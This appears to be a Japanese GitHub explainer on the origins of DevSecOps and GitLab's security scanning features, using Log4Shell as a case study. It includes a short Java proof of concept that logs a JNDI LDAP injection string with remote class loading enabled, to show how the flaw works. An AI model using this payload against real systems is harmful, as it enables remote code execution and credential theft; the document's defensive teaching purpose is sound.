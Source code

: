 <!-- omit in toc -->
# GitLabでのDevSecOps説明

## 概要

本稿では、DevSecOpsが必要とされるようになった経緯と、GitLabでのDevSecOps実現方法について説明する。

近年、DevOpsに「セキュリティ（Security）」の要素を追加したDevSecOpsが注目されており、GitLabもDevOpsプラットフォームとして、セキュリティ機能の統合に注力している。

## 目次

- [概要](#概要)
- [目次](#目次)
- [DevSecOpsが必要とされる経緯](#devsecopsが必要とされる経緯)
  - [OSSの深刻な脆弱性の実例](#ossの深刻な脆弱性の実例)
  - [OSSの多用](#ossの多用)
  - [DevSecOpsの誕生](#devsecopsの誕生)
- [GitLabでのDevSecOps](#gitlabでのdevsecops)
- [参考リンク](#参考リンク)

## DevSecOpsが必要とされる経緯

従来の開発では、セキュリティ対策は開発の最後の工程、あるいはリリース後にセキュリティ有識者が実施するものであり、開発者はXSSやSQLインジェクションなど代表的な脆弱性を意識すれば必要十分だった。

しかし、OSSを多用した短期間サイクルのモダンな開発では、リリース前のセキュリティ有識者による検証はボトルネックとなるリスクがある。各開発者が実装段階でセキュリティ対策を意識し、開発チーム・運用チームを含めたプロダクトに関わる全員の責任として対応することが求められている。

![Alt text](img/shiftleft.png)
※出典 [Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

### OSSの深刻な脆弱性の実例

2021年12月、Log4j(Javaで使用されるロギングライブラリ)に重大な脆弱性が発見されました。多くのシステムがこのライブラリを使用していたため被害が全世界に広がり、OSSの脆弱性がどれほど深刻な影響をもたらす可能性があるか、多くの企業が認識することとなった。

この深刻な脆弱性Log4jShell(CVE-2021-44228)は、JNDI Lookup機能（ログとして記録された文字列から、一部の文字列を変数として置きかえる機能）を悪用します。ログに書き込まれた特殊な文字列を実行し、第三者がリモートでjava classファイルを読み込んで実行できる。

脆弱性は以下のシンプルなコードで再現できる。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4jSample {

  private static final Logger logger = LogManager.getLogger(Log4jSample.class);

    public static void main( String[] args ) {
        // 6u211、7u201、8u191、11.0.1以上のJDKバージョンはデフォルトでfalseなので
        // 今回の脆弱性は起きない
      System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
        // JNDIのLookUp機能により、ただの文字列ではなく外部へのアクセスが実行されてしまう
      logger.error("${jndi:ldap://127.0.0.1:1389/Exploit}");
    }
}
```

※出典 [【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)

logger.errorに「${jndi:ldap://~}」という文字列が埋め込むことで攻撃が成立します。指定したLDAPから返却されるパスに攻撃用のjava classファイルを配置すれば対象のWebサーバで任意のコードが実行できる。実際にこのシンプルなコードで再現できる脆弱性を利用して、ユーザ名・パスワード、トークンが流出し、サーバの設定によってはDBからテーブルを丸ごと抜き出すことや他のサーバへの攻撃の踏み台になる。

対策としてApach.orgは緊急パッチをリリースしているため、ライブラリのアップデートによってこの問題は回避できる。しかし、OSSの原則として脆弱性による損害は使用者が責任を負うため、いち早く脆弱性の情報を収集しパッチをあてることが重要となる。

### OSSの多用

問題となるのは、上記の脆弱性が潜在的に全てのライブラリに存在する可能性があることです。ライブラリのバージョンやソースコードの変更がなくても、明日には新たな脆弱性が明らかになる可能性があり、使用しているOSSのライブラリの数が多ければそのリスクは増加する。

しかし、ツリー構造で参照され、パッケージマネージャーで芋づる式に取得されるライブラリの脆弱性情報を、セキュリティ有識者ではない各開発者が日々追跡するのは事実上困難である。実際のところ、日々の開発する中で現在参照しているバージョンに問題がないのかを把握することすら、かなりの労力が必要となる。

```mermaid
graph TB
subgraph OSSライブラリ依存関係イメージ
  A-->B
  B-->C
  C-->D
  A-->E
  A-->F
  F-->G
  C-->脆弱性あり!!!
  E-->I
  I-->J
  F-->C
  F-->P
  I-->K
  E-->L
  C-->M
  L-->M
  E-->P
  P-->Q
end
```

### DevSecOpsの誕生

上記の経緯から、日々更新されるライブラリの脆弱性情報を取得し、開発サイクルの中にセキュリティ対策を組み込むDevSecOpsという概念が生まれた。開発者が実装の早い段階(シフトレフト)でセキュリティ対策する仕組みが必要とされている。

![Alt text](img/devsecops_lifecycle.png)

しかし、理想とセキュリティ有識者ではない開発者が独力でセキュリティ問題を発見・解決することの実現にはギャップがある。GitLabは、そのギャップを埋めるために開発者のセキュリティ対策をサポートする仕組みを提供している。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 -- ギャップ --> 使用ライブラリ把握
セキュリティ対策 -- ギャップ --> ライブラリの脆弱性最新情報
セキュリティ対策 -- ギャップ --> セキュアな実装
セキュリティ対策 -- ギャップ --> トークン/パスワードの漏洩
セキュリティ対策 -- ギャップ --> ライセンス汚染
セキュリティ対策 -- ギャップ --> クラウド設定セキュリティホール
```

## GitLabでのDevSecOps

Log4jの問題からわかるように、ソースコードをベースとしたセキュリティ対策には大きく2つの側面がある。

- 使用しているライブラリに脆弱性が存在しないか
- 自分たちが実装したコードに脆弱性が存在しないか

前者がDependency ScanやContainer Scanと呼ばれる依存ライブラリのチェックとなり、後者がSASTと呼ばれる静的コード解析になる。

![Alt text](img/gitlab_cicd_devsecops.png)
![Alt text](img/gitlab_securitydashboard.png)

GitLabのSASTやDependency Scanは、日々更新されるライブラリやフレームワークの脆弱性情報を自動で取得し、いち早く脆弱性情報と修正方法を提供する。セキュリティ専門知識と開発者のギャップを提案形式で補い、リポジトリ、CICDと連携しながらオールインワンでシフトレフトのセキュリティ対策を実現するのが、GitLabが提供するDevSecOpsである。

```mermaid
graph LR
subgraph 開発者
  セキュリティ対策
end
subgraph GitLab 脆弱性レポート
  依存関係リスト
  DependencyScan/ContainerScan
  SAST
  SecretDetection
  LicenseScan
  IaCScan
end
subgraph セキュリティ専門知識
  使用ライブラリ把握
  ライブラリの脆弱性最新情報
  セキュアな実装
  トークン/パスワードの漏洩
  ライセンス汚染
  クラウド設定セキュリティホール
end
セキュリティ対策 --> 依存関係リスト
セキュリティ対策 --> DependencyScan/ContainerScan
セキュリティ対策 --> SAST
セキュリティ対策 --> SecretDetection
セキュリティ対策 --> LicenseScan
セキュリティ対策 --> IaCScan
依存関係リスト --> 使用ライブラリ把握
DependencyScan/ContainerScan --> ライブラリの脆弱性最新情報
SAST --> セキュアな実装
SecretDetection --> トークン/パスワードの漏洩
LicenseScan --> ライセンス汚染
IaCScan --> クラウド設定セキュリティホール
```

## 参考リンク

[Veracode：クラウド型アプリケーションセキュリティプラットフォーム](https://f2ff.jp/2021/interop/exhibitor/show.php?id=702&lang=ja)

[【図解】Apache Log4jの脆弱性の仕組みと対応の必要性、攻撃有無の確認方法（CVE-2021-44228）](https://amg-solution.jp/blog/27313)
